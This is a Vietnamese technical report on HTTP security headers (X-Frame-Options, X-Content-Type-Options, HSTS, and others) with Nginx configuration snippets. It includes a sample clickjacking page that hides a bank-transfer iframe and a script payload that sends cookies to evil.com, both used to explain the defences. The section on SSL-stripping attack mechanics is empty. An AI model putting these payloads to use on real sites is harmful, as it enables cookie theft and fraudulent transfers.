

# Báo Cáo Kỹ Thuật: HTTP Security Headers - Cơ Chế Tấn Công & Phòng Thủ

Phân tích chuyên sâu về 6 HTTP Security Headers quan trọng nhất theo tiêu chuẩn OWASP, cơ chế hoạt động thực tế của từng vector tấn công và cách mỗi header ngăn chặn chúng.

---

## 1. Clickjacking - X-Frame-Options

### Cơ chế tấn công:
```html
<!-- Trang web độc hại của kẻ tấn công -->
<html>
  <body>
    <div style="position: relative;">
      <!-- Overlay vô hình che lên nút "Xem phim" -->
      <button style="position: absolute; z-index: 2; opacity: 0.001;">
        Xác nhận chuyển tiền 50 triệu!
      </button>
      
      <!-- Iframe nhúng trang ngân hàng thật -->
      <iframe src="https://secure.example.com/transfer"
              style="position: absolute; z-index: 1; opacity: 0.1;">
      </iframe>
    </div>
    <button>Click để xem phim miễn phí!</button>
  </body>
</html>
```

Người dùng nhìn thấy nút "Click để xem phim miễn phí!", nhưng thực tế click vào nút "Xác nhận chuyển tiền" ẩn trên iframe.

### Phòng thủ bằng X-Frame-Options:
```nginx
add_header X-Frame-Options "SAMEORIGIN" always;
```
Trình duyệt kiểm tra header này khi load iframe. Nếu domain của trang cha khác với domain của trang được nhúng, trình duyệt từ chối load và hiển thị lỗi thay thế.

---

## 2. MIME-Sniffing → XSS - X-Content-Type-Options

### Cơ chế tấn công:
1. Người dùng upload file "avatar.jpg" lên server.
2. File thực tế chứa: `<script>document.location='https://evil.com/steal?c='+document.cookie</script>`
3. Trình duyệt cũ MIME-sniff thấy tag script, quyết định đây là `text/html` hoặc `application/javascript`.
4. Trình duyệt thực thi đoạn JavaScript đó → Cookie người dùng bị gửi về máy chủ của kẻ tấn công!

### Phòng thủ bằng X-Content-Type-Options:
```nginx
add_header X-Content-Type-Options "nosniff" always;
```
Trình duyệt bắt buộc phải tin vào `Content-Type: image/jpeg` mà server gửi về. Dù file có chứa script, trình duyệt cũng chỉ hiển thị nó như file ảnh hỏng, không thực thi.

---

## 3. SSL Stripping - Strict-Transport-Security (HSTS)

### Cơ chế tấn công:


### Phòng thủ bằng HSTS:
```nginx
add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
```
Lần đầu user kết nối thành công qua HTTPS, trình duyệt lưu rule HSTS. Từ đó **trình duyệt tự động convert HTTP → HTTPS ngay trên máy người dùng** trước khi gửi bất kỳ byte nào ra mạng → Kẻ tấn công MitM không có cơ hội can thiệp vào giao thức.

---

## 4. Tóm Tắt Bảng Security Headers & Mức Độ Ưu Tiên

| Header | Mức độ ưu tiên | Chống tấn công | Phiên bản hiện đại thay thế |
| :--- | :--- | :--- | :--- |
| `X-Frame-Options` | Bắt buộc | Clickjacking | `Content-Security-Policy: frame-ancestors` |
| `X-Content-Type-Options` | Bắt buộc | MIME-Sniffing → XSS | Không có thay thế |
| `Strict-Transport-Security` | Bắt buộc (chỉ HTTPS) | SSL Stripping (MitM) | Không có thay thế |
| `X-XSS-Protection` | Khuyến nghị | XSS (trình duyệt cũ) | CSP thay thế hoàn toàn |
| `Content-Security-Policy` | Mạnh nhất | XSS, Data Injection | Tiêu chuẩn hiện đại |
| `Referrer-Policy` | Khuyến nghị | Rò rỉ URL riêng tư | - |

---

## 5. Từ Khóa `always` Trong `add_header`

```nginx
add_header X-Frame-Options "SAMEORIGIN" always;
#                                        ^^^^^^
#                                        Từ khóa quan trọng!
```

Mặc định trong Nginx, chỉ thị `add_header` chỉ thêm header vào các response có mã HTTP **2xx và 3xx** (thành công và redirect). Nếu không có từ khóa `always`, các response lỗi (`4xx`, `5xx`) sẽ KHÔNG được đính kèm security headers. Kẻ tấn công có thể cố ý kích hoạt lỗi 404/500 để tránh các header bảo vệ. Từ khóa `always` đảm bảo header luôn được thêm vào **mọi mã HTTP response** bất kể thành công hay lỗi.
